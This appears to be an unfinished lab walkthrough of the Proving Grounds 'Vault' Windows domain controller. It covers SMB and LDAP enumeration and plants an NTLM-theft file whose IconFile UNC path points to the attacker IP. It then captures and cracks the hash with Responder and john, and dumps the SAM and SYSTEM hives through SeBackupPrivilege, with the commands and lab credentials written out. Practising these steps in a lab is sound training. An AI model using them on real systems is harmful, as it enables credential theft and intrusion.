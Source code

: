 Info:
IP: 192.168.157.172
OS:
Domain: vault.offsec

Links:
```bash
https://medium.com/@Dpsypher/proving-grounds-practice-vault-158516460860
https://aditya-3.gitbook.io/oscp/readme/walkthroughs/pg-practice/vault
```
Standard enum:

# NMAP
```bash
nmap -p- -sCV 192.168.157.172 --open
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-10 20:23 EDT
Nmap scan report for 192.168.157.172
Host is up (0.044s latency).
Not shown: 65514 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-11 00:25:02Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-10-11T00:26:31+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: VAULT
|   NetBIOS_Domain_Name: VAULT
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: vault.offsec
|   DNS_Computer_Name: DC.vault.offsec
|   DNS_Tree_Name: vault.offsec
|   Product_Version: 10.0.17763
|_  System_Time: 2025-10-11T00:25:51+00:00
| ssl-cert: Subject: commonName=DC.vault.offsec
| Not valid before: 2025-10-10T00:19:57
|_Not valid after:  2026-04-11T00:19:57
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
49830/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-10-11T00:25:52
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

# Worth checking:
```bash
139, 445 - smb
389, 636, 3268, 3269 - LDAP
5985 - WinRM
9389 - ?
```

Lets try to enum users with LDAP:
```bash
impacket-lookupsid guest@vault.pgp -no-pass

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at vault.pgp
[*] StringBinding ncacn_np:vault.pgp[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-537427935-490066102-1511301751
498: VAULT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VAULT\Administrator (SidTypeUser)
501: VAULT\Guest (SidTypeUser)
502: VAULT\krbtgt (SidTypeUser)
512: VAULT\Domain Admins (SidTypeGroup)
513: VAULT\Domain Users (SidTypeGroup)
514: VAULT\Domain Guests (SidTypeGroup)
515: VAULT\Domain Computers (SidTypeGroup)
516: VAULT\Domain Controllers (SidTypeGroup)
517: VAULT\Cert Publishers (SidTypeAlias)
518: VAULT\Schema Admins (SidTypeGroup)
519: VAULT\Enterprise Admins (SidTypeGroup)
520: VAULT\Group Policy Creator Owners (SidTypeGroup)
521: VAULT\Read-only Domain Controllers (SidTypeGroup)
522: VAULT\Cloneable Domain Controllers (SidTypeGroup)
525: VAULT\Protected Users (SidTypeGroup)
526: VAULT\Key Admins (SidTypeGroup)
527: VAULT\Enterprise Key Admins (SidTypeGroup)
553: VAULT\RAS and IAS Servers (SidTypeAlias)
571: VAULT\Allowed RODC Password Replication Group (SidTypeAlias)
572: VAULT\Denied RODC Password Replication Group (SidTypeAlias)
1000: VAULT\DC$ (SidTypeUser)
1101: VAULT\DnsAdmins (SidTypeAlias)
1102: VAULT\DnsUpdateProxy (SidTypeGroup)
1103: VAULT\anirudh (SidTypeUser)
```

Now maybe enum4linux
```bash
$ enum4linux-ng vault.pgp  
```

nothing special, check smb
```bash
crackmapexec smb vault.pgp -u 'quest' -p ''  --shares

SMB         vault.pgp       445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:vault.offsec) (signing:True) (SMBv1:False)
SMB         vault.pgp       445    DC               [+] vault.offsec\quest: 
SMB         vault.pgp       445    DC               [+] Enumerated shares
SMB         vault.pgp       445    DC               Share           Permissions     Remark
SMB         vault.pgp       445    DC               -----           -----------     ------
SMB         vault.pgp       445    DC               ADMIN$                          Remote Admin
SMB         vault.pgp       445    DC               C$                              Default share
SMB         vault.pgp       445    DC               DocumentsShare  READ,WRITE      
SMB         vault.pgp       445    DC               IPC$            READ            Remote IPC
SMB         vault.pgp       445    DC               NETLOGON                        Logon server share 
SMB         vault.pgp       445    DC               SYSVOL                          Logon server share 
```
Bingo!

lets generate some files for upload

```bash
python3 ntlm_theft.py -g all -s 192.168.45.236 --filename odin
```

it gave us plenty of files: 

![alt text](image.png)

but we can always use:
```brash
file created:

Random_nonsense
WorkingDirectory=Flibertygibbit
IconFile=\\192.168.45.236\%USERNAME%.icon
IconIndex=1
```

Now lets connect:
```bash
impacket-smbclient quest@vault.pgp 
```
![alt text](image-1.png)

Once uploaded we need to start responder:
```bash
sudo responder -I tun0 -wv 
```

And bum! we have this:

![alt text](image-2.png)

We can use john or hashcat:
```bash
hashcat -m 5600 anirudh.hash /usr/share/wordlists/rockyou.txt --force --potfile-disable

john  -w="/usr/share/wordlists/rockyou.txt" anirudh.hash 

Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
SecureHM         (anirudh)     
1g 0:00:00:03 DONE (2025-10-11 19:06) 0.2994g/s 3176Kp/s 3176Kc/s 3176KC/s Seifer@14..Schsutar90
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

We have creds!
```bash
anirudh:SecureHM
```

We have plenty of options:

# SMB
```bash
crackmapexec smb vault.pgp -u 'anirudh' -p 'SecureHM' --shares 
SMB         vault.pgp       445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:vault.offsec) (signing:True) (SMBv1:False)
SMB         vault.pgp       445    DC               [+] vault.offsec\anirudh:SecureHM 
SMB         vault.pgp       445    DC               [+] Enumerated shares
SMB         vault.pgp       445    DC               Share           Permissions     Remark
SMB         vault.pgp       445    DC               -----           -----------     ------
SMB         vault.pgp       445    DC               ADMIN$          READ            Remote Admin
SMB         vault.pgp       445    DC               C$              READ,WRITE      Default share
SMB         vault.pgp       445    DC               DocumentsShare                  
SMB         vault.pgp       445    DC               IPC$            READ            Remote IPC
SMB         vault.pgp       445    DC               NETLOGON        READ            Logon server share 
SMB         vault.pgp       445    DC               SYSVOL          READ            Logon server share 
```

We have port 5985 so we can use EvilWinRM and 3389 so we can use RDP.
RDP failed
![alt text](image-3.png)

Lets check EvilWinRM

![alt text](image-4.png)

Lets connect via EvilWinRM and check our /priv
```bash
evil-winrm -i vault.pgp -u anirudh -p "SecureHM"
```

![alt text](image-5.png)

We can do plenty of things, but I would like to use SeBackupPrivilege.

Create files with:
```bash
reg save hklm\sam sam
reg save hklm\system system
```
FYI. Remember to do it in folder where we cancreate files.
![alt text](image-6.png)

Download files:
```bash
download sam
download system
```

Once everything is in place, one last step to get admin hash:
```bash
impacket-secretsdump -system system -sam sam local
```

Bum!
![alt text](image-7.png)

But my heart is broken:
![alt text](image-8.png)

We go back to anirudh and check:
```
net localgroup 'Remote Desktop Users'

net localgroup 'Remote Management Users'
```

![alt text](image-9.png)

All clear, only Anirudh has remote access.

Lets go with winpeas:
```bash
cp /usr/share/peass/winpeas/winPEASany.exe winpeasany.exe
```

![alt text](image-10.png)

